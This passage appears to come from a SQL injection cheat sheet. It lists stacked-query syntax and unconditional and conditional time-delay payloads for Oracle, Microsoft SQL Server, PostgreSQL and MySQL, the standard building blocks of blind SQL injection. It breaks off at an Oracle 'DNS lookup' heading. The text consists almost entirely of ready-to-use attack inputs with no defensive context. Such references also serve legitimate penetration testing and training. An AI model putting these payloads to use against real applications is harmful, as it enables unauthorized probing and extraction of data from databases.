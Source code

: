 - PostgreSQL, MySQL

```sql
select 'query1'; select 'query2'
```

### Time delays

- Oracle

```sql
dbms_pipe.receive_message(('a'),10)
```

- Microsoft

```sql
waitfor delay '0:0:10'
```

- PostgreSQL

```sql
pg_sleep(10)
```

- MySQL

```sql
sleep(10)
```

### Conditional time delays

- Oracle

```sql
select case when('CONDITION') then 'a'||dbms_pipe.receive_message(('a'),10) else NULL end from dual
```

- Microsoft

```sql
if ('CONDITION') waitfor delay '0:0:10'
```

- PostgreSQL

```sql
select case when('CONDITION') then pg_sleep(10) else pg_sleep(0) end
```

- MySQL

```sql
select if('CONDITION',sleep(10),'a') 
```

### DNS lookup

- Oracle
